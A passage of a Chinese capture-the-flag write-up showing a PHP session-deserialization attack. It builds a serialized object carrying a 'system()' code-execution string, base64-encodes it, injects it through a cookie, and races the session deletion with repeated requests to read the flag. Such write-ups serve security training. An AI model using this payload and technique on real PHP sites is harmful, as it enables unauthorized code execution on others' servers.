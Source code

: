 ```php
}
$a =new User("1.php","<?php system('cat fl*');?>");
echo base64_encode(serialize($a));//进行base64编码，因为index.php是进行了base64解码
?>
```

O:4:"User":3:{s:8:"username";s:5:"1.php";s:8:"password";s:26:"<?php system('cat fl*');?>";s:6:"status";N;}

然后在payload前面添加"|"

|O:4:"User":3:{s:8:"username";s:5:"1.php";s:8:"password";s:26:"<?php system('cat fl*');?>";s:6:"status";N;}

最后base64编码一下

fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czoyNjoiPD9waHAgc3lzdGVtKCdjYXQgZmwqJyk7Pz4iO3M6Njoic3RhdHVzIjtOO30=

然后抓包修改index.php里面的Cookie的limit值。

但是有一个问题就是写入的session马上又会被删除，使用我们利用bp不断的发包然后访问check.php或者inc/inc.php都可以

最后访问log-1.php查看flag<img src="assets/img/2024/1/image-20240202134633824.png" alt="image-20240202134633824" style="zoom:67%;" />

------



## 红包题 耗子尾汁

------
